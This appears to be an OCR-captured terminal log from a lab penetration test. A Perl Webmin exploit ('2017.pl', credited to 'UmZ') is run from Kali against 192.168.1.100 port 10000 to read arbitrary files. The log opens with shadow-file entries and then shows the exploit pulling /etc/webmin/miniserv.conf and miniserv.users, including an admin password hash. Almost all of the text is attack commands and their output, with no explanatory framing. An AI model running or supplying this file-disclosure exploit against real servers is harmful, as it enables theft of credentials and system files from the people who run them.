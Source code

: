 ```
tomcat6:*:16138:0:99999:7:::
statd:*:16138:0:99999:7:::
snmp:*:16138:0:99999:7:::
nagios:!:16140:0:99999:7:::
openerp:*:16140:0:99999:7:::

 -------------------------------------

root@kali:~# perl 2017.pl 192.168.1.100 10000 /etc/webmin/miniserv.conf 0
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 192.168.1.100 on port 10000!
FILENAME:  /etc/webmin/miniserv.conf

 FILE CONTENT STARTED
 -----------------------------------
port=10000
root=/var/www/webmin-1.280
mimetypes=/var/www/webmin-1.280/mime.types
addtype_cgi=internal/cgi
realm=Webmin Server
logfile=/var/webmin/miniserv.log
errorlog=/var/webmin/miniserv.error
pidfile=/var/webmin/miniserv.pid
logtime=168
ppath=
ssl=0
env_WEBMIN_CONFIG=/etc/webmin
env_WEBMIN_VAR=/var/webmin
atboot=1
logout=/etc/webmin/logout-flag
listen=10000
denyfile=\.pl$
log=1
blockhost_failures=5
blockhost_time=60
syslog=1
session=1
userfile=/etc/webmin/miniserv.users
keyfile=/etc/webmin/miniserv.pem
passwd_file=/etc/shadow
passwd_uindex=0
passwd_pindex=1
passwd_cindex=2
passwd_mindex=4
passwd_mode=0
preroot=mscstyle3
passdelay=1

root@kali:~# perl 2017.pl 192.168.1.100 10000 /etc/webmin/miniserv.users 0
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 192.168.1.100 on port 10000!
FILENAME:  /etc/webmin/miniserv.users

 FILE CONTENT STARTED
 -----------------------------------
admin:$1$XXXXXXXX$2oMWkcwYECUmHgNGhh8Pf1:0

```